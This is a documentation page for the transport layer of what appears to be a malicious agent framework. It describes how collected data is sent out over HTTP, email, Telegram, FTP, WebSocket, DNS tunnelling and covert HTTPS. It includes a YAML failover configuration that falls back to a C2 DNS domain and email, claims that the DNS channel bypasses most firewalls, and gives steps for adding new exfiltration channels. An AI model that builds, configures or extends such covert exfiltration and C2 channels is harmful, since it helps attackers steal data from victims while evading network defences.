

# Transport Modules

All transport modules inherit from [`BaseTransport`](../transport/base.py) and self-register via `@register_transport`. The registry lives in [`transport/__init__.py`](../transport/__init__.py).

## Available Transports



| Method | Config Name | Destination | Dashboard Integration |
|--------|------------|-------------|----------------------|
| **HTTP** | `http` | Server `/ingest` API | Yes (via DataBridge) |
| **Email** | `email` | SMTP mailbox | No (manual retrieval) |
| **Telegram** | `telegram` | Telegram Bot chat | No (manual retrieval) |
| **FTP** | `ftp` | FTP server | No (manual retrieval) |
| **WebSocket** | `websocket` | Persistent WS connection | Partial (via WS handler) |
| **DNS Tunnel** | `dns` | Covert DNS queries | No (C2 channel) |
| **HTTPS Covert** | `https_covert` | Hidden in HTTP headers | No (C2 channel) |

Only the **HTTP** transport feeds data directly into the dashboard pipeline (via `/ingest` -> DataBridge -> SQLite -> Dashboard).

## Transport Failover

When failover is enabled, the agent automatically cascades through transports when the primary fails:

```yaml
transport:
  method: "http"                    # primary
  failover:
    enabled: true
    methods: ["dns", "email"]       # fallback order
    retry_primary_after: 300        # retry primary after 5 minutes
  http:
    url: "http://your-server:8000/ingest"
  dns:
    domain: "c2.yourdomain.com"
  email:
    smtp_server: "smtp.gmail.com"
    recipient: "you@gmail.com"
```

**Source:** [`transport/failover.py`](../transport/failover.py)

## Individual Transports

### Email (SMTP)
- **Source:** [`transport/email_transport.py`](../transport/email_transport.py)
- Sends encrypted ZIP attachments via SMTP with SSL/TLS
- Config: `transport.email.smtp_server`, `smtp_port`, `sender`, `password`, `recipient`

### HTTP
- **Source:** [`transport/http_transport.py`](../transport/http_transport.py)
- POST/PUT to a configured URL with connection pooling
- Supports JWT auth token for unified authentication
- Config: `transport.http.url`, `method`, `headers`, `timeout`, `auth_token`

### FTP/FTPS
- **Source:** [`transport/ftp_transport.py`](../transport/ftp_transport.py)
- FTP upload with optional TLS (`prot_p()`)

### Telegram Bot API
- **Source:** [`transport/telegram_transport.py`](../transport/telegram_transport.py)
- Sends via Telegram Bot API (document for files, message for small text)

### WebSocket
- **Source:** [`transport/websocket_transport.py`](../transport/websocket_transport.py)
- Persistent bidirectional connection with auto-reconnect and heartbeat

### DNS Tunnel
- **Source:** [`transport/c2_dns_transport.py`](../transport/c2_dns_transport.py) (wraps [`c2/dns_tunnel.py`](../c2/dns_tunnel.py))
- Encodes data in DNS subdomain labels, bypasses most firewalls

### HTTPS Covert
- **Source:** [`transport/c2_https_transport.py`](../transport/c2_https_transport.py) (wraps [`c2/https_covert.py`](../c2/https_covert.py))
- Hides data in HTTP headers, cookies, and URL parameters

## Adding a New Transport

1. Create `transport/your_transport.py`
2. Inherit from `BaseTransport`
3. Decorate with `@register_transport("your_name")`
4. Implement `connect()`, `send()`, `disconnect()`
5. Add config section under `transport.your_name` in YAML
6. Add module name to the auto-import list in `transport/__init__.py`
